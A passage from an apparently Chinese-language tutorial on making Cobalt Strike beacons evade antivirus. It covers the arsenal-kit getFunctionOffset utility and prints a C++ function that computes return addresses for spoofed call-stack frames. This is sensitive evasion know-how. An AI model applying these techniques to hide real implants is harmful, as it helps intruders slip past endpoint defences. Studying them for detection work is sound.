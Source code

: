 ![image-20231111111503166](利用CS的Profile文件实现免杀/image-20231111111503166.png)	



然后转到`arsenal-kit\utils\getFunctionOffset`目录，使用编译的`getFunctionOffset.exe`生成具体的代码示例。此处生成的代码示例为：`set_frame_info(&callstack[i++], L"ntdll.dll", 0, 0x5aa78, 0, FALSE);`

![image-20231111115553496](利用CS的Profile文件实现免杀/image-20231111115553496.png)



使用`calculate_return_address`函数来计算每个伪造堆栈帧的返回地址。这是通过 `GetModuleHandleW` 或 `LoadLibraryW` 获取目标DLL的基地址，然后加上偏移量来完成的

```cpp
BOOL calculate_return_address(
    IN OUT PSTACK_FRAME frame)
{
    PVOID image_base = NULL;

    // get library base address
    image_base = GetModuleHandleW(frame->targetDll);
    if (!image_base)
        image_base = LoadLibraryW(frame->targetDll);
    if (!image_base)
    {
        return FALSE;
    }

    // set the return address as image_base + offset
    frame->returnAddress = RVA(PVOID, image_base, frame->offset);

    return TRUE;
}
```
